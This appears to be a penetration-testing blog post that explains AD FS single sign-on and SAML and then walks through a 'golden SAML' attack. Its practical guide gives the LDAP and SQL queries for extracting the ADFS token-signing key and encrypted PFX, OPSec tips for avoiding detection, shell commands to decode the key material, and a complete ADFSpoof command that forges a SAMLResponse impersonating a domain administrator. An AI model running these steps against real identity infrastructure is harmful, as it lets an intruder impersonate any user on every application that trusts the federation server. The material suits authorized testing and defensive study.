






## Introduction

According to Microsoft:

> Active Directory Federation Service (AD FS) enables Federated Identity and Access Management by securely sharing digital identity and entitlements rights across security and enterprise boundaries. AD FS extends the ability to use single sign-on functionality that is available within a single security or enterprise boundary to Internet-facing applications to enable customers, partners, and suppliers a streamlined user experience while accessing the web-based applications of an organization.

In a large network with several applications, each one of them can have an authentication process. Instead of having to authenticate on each and avoiding the risk of password reuse, the ADFS provides a **single sign-on** solution. It is also much simpler to manage **one login per user** than as many logins as applications per user.

For a concrete example, the following schema can quickly summarize the workflow of a web app using the ADFS server as an identity provider:



1.  A user wants to connect to a web application 
2. The application redirects the user to the ADFS server
3. The user authenticates to the ADFS
4. Once authenticated to the ADFS, the user is redirected to the web application. Additional information is included inside the request (for example user's groups)
5. The user is now authenticated on the application

## SAML

The previous diagram was a high abstraction of an interaction between a web application and an ADFS server.

### What is SAML?

Security Assertion Markup Language (SAML) is an open standard that allows identity providers (IdP) to pass authorization credentials to service providers (SP). What that jargon means is that you can use one set of credentials to log into many different websites. It’s much simpler to manage one login per user than it is to manage separate logins to email, customer relationship management (CRM) software, Active Directory, etc.

SAML stands for _Security Assertion Markup Language_, it's an open standard based on XML. Its primary role is to allow you to access multiple web applications using a single set of credentials. It provides **SSO** and **centralization user management**. The authentication information will be passed between two components: the **Identity Provider** (ADFS) and the **Service Provider** (web application).

Benefits of SSO are multiple:

- It avoids password reuse between application
- The passwords are stored in only one place
- The user's management (for administrators and the helpdesk) is simplified
- The password policy (length, complexity, MFA, ...) is centralized


Once the user is authenticated on the **Identity Provider** (ADFS), the user is redirected to the **Service Provider** through a **POST** request to `/SamlResponseServlet`, the XML data is base64 encoded. To prevent any modifications, the data is signed with an asymmetric encryption algorithm (like RSA).

Inside the XML data, the noteworthy fields are:

- In `Subject`, the field `NameID` contains the ID of the user (username or something else depending of the configuration on the SP)



- In `AttributeStatement` additional information can be included. For example, groups, emails,...

The SP will give the proper rights according to the data sent by the SP.


If you are still here, you may have understood that if an application relies on the ADFS for the authentication and the ADFS is compromised, then it is possible to craft a custom request to **impersonate anyone** on the web applications that relies on the ADFS.


## Practical guide
> In this section, I assume you have a session either as an administrator or as the service account running the ADFS service.

### Necessary information

We need two parts:
- The **private key** (PFX with the decryption password) which is only accessible with high privilege accounts. 
- Public information like the `NameID format`, the `NameID` to impersonate, the attributes to add in the SAML response, and the rpi identifier (matching the SP identifier - the field `InResponseTo` in *Subject → SubjectConfirmation → SubjectConfirmationData*) 

[ADFSDump](https://github.com/mandiant/ADFSDump) is a tool written by Mandiant to retrieve the information above. The tool should be run on the ADFS. If you are lazy to compile it, you can download it [here](ADFSDump.exe).
- The private key is stored in the attribute `thumbnailPhoto` of the LDAP. It is retrieved with the query `(&(thumbnailphoto=*)(objectClass=contact)(!(cn=CryptoPolicy)))`.



- For the encrypted pfx, it will connect, by default, to the WID, _Windows Internal Database_, database (through the named pipes pipe `\\.\pipe\microsoft##wid\tsql\query`) and retrieve the pfx with the query: `SELECT ServiceSettingsData from {0}.IdentityServerPolicy.ServiceSettings` .



- The public information is also stored in the database, _ADFSDump.exe_ get these data with the sql query 
>SELECT SCOPES.ScopeId,SCOPES.Name,SCOPES.WSFederationPassiveEndpoint,SCOPES.Enabled,SCOPES.SignatureAlgorithm,SCOPES.EntityId,SCOPES.EncryptionCertificate,SCOPES.MustEncryptNameId, SCOPES.SamlResponseSignatureType, SCOPES.ParameterInterface, SAML.Binding, SAML.Location,POLICYTEMPLATE.name, POLICYTEMPLATE.PolicyMetadata, POLICYTEMPLATE.InterfaceVersion, SCOPEIDS.IdentityData FROM {0}.IdentityServerPolicy.Scopes SCOPES LEFT OUTER JOIN {0}.IdentityServerPolicy.ScopeAssertionConsumerServices SAML ON SCOPES.ScopeId = SAML.ScopeId LEFT OUTER JOIN {0}.IdentityServerPolicy.PolicyTemplates POLICYTEMPLATE ON SCOPES.PolicyTemplateId = POLICYTEMPLATE.PolicyTemplateId LEFT OUTER JOIN {0}.IdentityServerPolicy.ScopeIdentities SCOPEIDS ON SCOPES.ScopeId = SCOPEIDS.ScopeId






**ADFSDump** cannot retrieve the information above if it is not a WID database.


 
**OPSec tips:**

 As it is stored on the LDAP, the **private key** can be gotten from another device.

For the **public information**, by default, the WID (Windows Internal Database) database is only accessible from _localhost_. If an SQL Server is being used and it's reachable from another machine, you may be able to get all the information without opening a session and executing a binary on the ADFS. You may also inspect the _SAMLResponse_ to retrieve this information.


For the next step, we have to save the **pfx** (Encrypted Signing Key) and the **private key** in binary format.
```bash
# For the pfx
echo AAAAAQAAAAAEE[...]Qla6 | base64 -d > EncryptedPfx.bin
# For the private key
echo f7404c7f[...]aabd8b | xxd -r -p > dkmKey.bin 
```

### Crafting the SAMLResponse
[ADFSpoof](https://github.com/mandiant/ADFSpoof) is a tool written in python to generate our golden SAML from the previously collected information. Microsoft took liberties with the RFC :unamused: and uses a custom _cryptography_ library. To have a working environment to run the tool:
```sh
mkdir ADFSpoofTools
cd $_
git clone https://github.com/dmb2168/cryptography.git
git clone https://github.com/mandiant/ADFSpoof.git 
virtualenv3 venvADFSSpoof
source venvADFSSpoof/bin/activate
pip install lxml
pip install signxml
pip uninstall -y cryptography
cd cryptography
pip install -e .
cd ../ADFSpoof
pip install -r requirements.txt
``` 

To impersonate an administrator on the application _www.contoso.com_  where the ADFS is located at adfs.pentest.lab we will use the following command with the data from ADFSDump.
```python
python ADFSpoof.py -b EncryptedPfx.bin DkmKey.bin  -s adfs.pentest.lab  saml2 --endpoint https://www.contoso.com/adfs/ls
/SamlResponseServlet --nameidformat urn:oasis:names:tc:SAML:2.0:nameid-format:transient --nameid 'PENTEST\administrator' --rpidentifier Supervision --assertions '<Attribute Name="http://schemas.microsoft.com/ws/2008/06/identity/claims/windowsaccountname"><AttributeValue>PENTEST\administrator</AttributeValue></Attribute>'
```

The request 5 in the authentication flow at the beginning of the post has to be intercepted (or crafted) to paste the output generated by ADFSpoof.
